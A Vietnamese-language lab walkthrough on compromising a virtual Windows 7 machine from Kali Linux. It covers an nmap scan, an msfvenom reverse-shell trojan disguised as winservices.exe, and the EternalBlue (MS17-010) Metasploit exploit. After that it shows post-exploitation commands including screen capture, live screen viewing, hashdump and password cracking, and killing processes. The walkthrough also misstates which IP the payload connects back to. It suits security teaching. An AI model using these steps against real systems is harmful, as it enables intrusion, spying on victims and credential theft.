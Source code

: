*)Các bước thực hiện:

+) Chuẩn bị máy window 7 ảo 
+) Kali linux


Bước 1:

*) Lấy địa chỉ IPv4 address của máy ảo win 7



Địa chỉ Ipv4 address là : 192.168.206.140


Bước 2: Trong màn hình Kali linux mở terminal và sử dụng lệnh : sudo nmap 192.168.206.140 để quét các cổng port đang mở của máy 



Thấy được các cổng port đang mở


Tiếp theo sẽ đến bước tạo file trojan ( payload) sử dụng câu lệnh : msfvenom msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.206.131 LPORT=4444 -f exe -o winservices.exe

=>Sẽ tạo 1 file có tên là winservices có dạng  “exe” khi file được kích hoạt thì sẽ tạo 1 kết nối ngược về địa chỉ IP : 192.168.206.140 với cổng port là 4444 như đã được cấu hình trong câu lệnh








Bước 3:
Mở 1 màn hình terminal khác và sử dụng lệnh “msfconsole “ để chạy metasploit




Sau khi chạy msfconsole thì sẽ hiện ra msf6 và ở đây sẽ sử dụng câu lệnh 

msf6>use ms17   để khai thác exploit


List các exploit được hiện ra và có thể chọn exploit theo mục đích khai thác



Lựa chọn exploit/windows/smb/ms17_010_eternalblue để xâm nhập 

Khai thác lỗ hổng SMBv1 trên Windows (được gọi là EternalBlue).

Lỗ hổng này được công bố trong bản vá MS17-010 của Microsoft.

Nó cho phép thực thi mã từ xa (RCE – Remote Code Execution) trên máy đích nếu máy đó chưa được vá và chạy dịch vụ SMBv1.

Tiếp theo sẽ set địa chỉ ip và port muốn khai thác:




Sau khi set xong thi sử dụng lệnh exploit / run để khai thác lỗ hổng





Máy sẽ liên tục gửi các buffer đến cho máy win7 và như trong hình thì lỗ hổng đã khai thác thành công và hiện lên dòng chữ Meterpreter session 1 opened - tức là đã tạo ra 1 phiên làm việc ở trên máy win 7.


Sử dụng lệnh getuid để xem phiên đang  với quyền nào : Như trong ảnh thì phiên đang làm việc với quyền system 



Từ đây có thể upload file mã độc mà đã tạo trước đó thông qua lệnh : upload + đường dẫn file



Tiếp theo ở màn hình terminal thứ 2 sẽ khởi tạo 1 phiên làm việc metasploit mới 




Tạo 1 kết nối từ máy lắng nghe payload và hoạt động như 1 listener.

Sau khi file mã độc được kích hoạt trên máy nạn nhân thì sẽ thực hiện kết nối ngược về và cung cấp 1 phiên làm việc.



Trong màn hình terminal 1 , sử dụng lệnh shell để thực hiện các các quyền shell trên máy nạn nhân.



Ở màn hình terminal thứ 2 thì sẽ set payload và địa chỉ local host , local port cho payload , khi file mã độc ( payload ) được kích hoạt thì sẽ kết nối ngược về



Sử dụng lệnh run để bắt đầu mở cửa lắng nghe , bước tiếp theo la chỉ cần kích hoạt file mã độc thì sẽ có thể kết nối ngược lại được 



Ở màn hình terminal thứ 1 thông qua shell thì sẽ nhập lệnh : winservices.exe để chạy trực tiếp file mã độc



Sau khi chạy được file mã độc thì đã tạo 1 kết nối về được cũng như đưa cho hacker 1 phiên làm việc.

Meterpreter session 1 opened.



Ở đây thì đối với 2 màn hình terminal thì ta có các phiên làm việc khác nhau nó hoạt động như 1 instance metasploit riêng biệt không có khả năng chia sẻ dữ liệu với nhau.

Tức là ta có thể thao tác ở cả hai màn hình terminal cùng 1 lúc với 2 phiên làm việc khác nhau .



Sessions -i 2 để chọn phiên làm việc với id 2




Thực hiện lệnh screenshot màn hình  nạn nhân.



Thực hiện lệnh screenshare để xem share trực tiếp màn hình nạn nhân hiện taị và có thể theo dõi các hình vi trên màn hình   

     

Hoặc có thể sử dụng lệnh hashdump khi ở quyền system để lấy mã hash mật mật khẩu và sau khi sử dụng các tool như hashcat hoặc john the ripper thì có thể lấy được chuỗi plaintext                       



Sử dụng lệnh ps để xem các tiến trình đang chạy trên máy nạn nhân.

 


Sử dụng lệnh kill 2216 để kết thúc tiến trình có PID là 2216 trên máy nạn nhân



Tạm dừng 1 tiến trình đang chạy trên hệ thống


Sử dụng lệnh reboot để khởi động lại máy nạn nhân.

        
                                                                                              
                                                                                              
                                                                                              
                                                                                              
                                                                                              
                                                                                              
                                                                                              
 

                                                          
                                                                                              
                                                                                              
                                                                                              
                                                                                              
                                                                                              
                                                                                              
                                                                                              
                                    






